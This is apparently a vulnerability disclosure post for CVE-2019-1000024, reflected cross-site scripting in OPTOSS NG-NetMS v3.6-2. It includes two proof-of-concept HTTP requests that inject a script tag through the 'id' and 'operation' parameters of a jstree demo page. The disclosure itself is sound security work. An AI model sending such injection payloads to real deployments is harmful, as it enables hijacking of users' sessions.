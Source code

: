 ```yaml
---
layout: post
title:  "Cross-site scripting (XSS) in OPTOSS Next Gen Network Management System (NG-NetMS)"
date:   2019-01-20 19:51:02 +0700 
categories: [cve]
---
```


Vendor: OPT/NET BV

Product: OPTOSS Next Gen Network Management System (NG-NetMS)

Version affected: NG-NetMS v3.6-2 and earlier versions

#### Product description:
Opt/Net develops Next Gen Network Management System (NG-NetMS). This is a new web based end-to-end management tool. This project is nearly 14 years old and already proved to be indispensable tool for rapid data collection during audits and network infrastructure assessments.

This product provides near real-time visibility of the networks and ITC infrastructures and interconnected computing resources.

* CVE ID: CVE-2019-1000024
* CWE ID: CWE-79

#### #Proof of Concept

Multiple reflected cross-site scripting (XSS) vulnerabilities were discovered in the product.

A cross-site scripting vulnerability was identified on the /js/libs/jstree/demo/filebrowser/index.php page. The “id” and “operation” GET parameters can be used to inject arbitrary JavaScript which is returned in the page's response.

The following Proof of Concept (PoC) demonstrates the attack as well as displaying evidence of the script payload being returned in the response. 

#### Request:
{% highlight ruby %}
POC 1:

GET /js/libs/jstree/demo/filebrowser/index.php?id=%23'<script >prompt('xss')</script>&operation=get_node HTTP/1.1
Referer: http://a.b.c.d:80/index.php?r=site/login
Cookie: PHPSESSID=p4j7rspfhqhpu5duj60um2gaq1
Host: a.b.c.d
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*

POC 2:

GET /js/libs/jstree/demo/filebrowser/index.php?id=%23&operation=get_node'<script >prompt('xss')</script> HTTP/1.1
Referer: http://a.b.c.d:80/index.php?r=site/login
Cookie: PHPSESSID=p4j7rspfhqhpu5duj60um2gaq1
Host: a.b.c.d
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*
{% endhighlight %}

#### References:
1. https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
2. https://opt-net.eu/products/optoss-ng-netms
3. https://sourceforge.net/projects/ngnms/
